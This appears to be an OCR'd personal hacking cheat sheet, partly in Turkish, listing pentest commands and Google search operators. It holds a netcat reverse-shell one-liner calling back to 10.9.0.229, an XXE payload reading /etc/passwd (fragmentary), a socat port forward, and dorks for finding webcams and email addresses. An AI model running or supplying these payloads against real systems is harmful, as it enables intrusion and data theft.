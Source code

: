 # Rabin #

rabin2 -z need_to_talk

# NetStat #

netstat -putan

netstat -na

# ECHO Writing #

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.229 4485 >/tmp/f" > /home/server-management/Documents/rev.sh

# SOCAT #

./socat TCP-LISTEN:2222,fork TCP:127.0.0.1:22

# XLM Test #

"!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"

# CD D:/ #

cd /d d:

# Shell #

ECHO $SHELL
chsh -s /bin/bash root

# Google #

OR ---> veya için kullanılır.

inurl: ---> urlde geçen sonuçlar için.

intitle: ---> Etikette geçen ifadeleri görmek için.Örn: intitle:"webcamxp 5"

intext: ---> Textlerde geçen ifadeler için.

filetype: ---> Verilecek olan ifadenin dosya biçimine göre arama yapar. Örn: filetype:pdf hacking ---> Hacking kelimesini içeren pdf dosyaları.

allintext: ---> Tüm textin içerisinde arama yapmak için. Örn: allintext:"@gmail.com"

buildwith.com
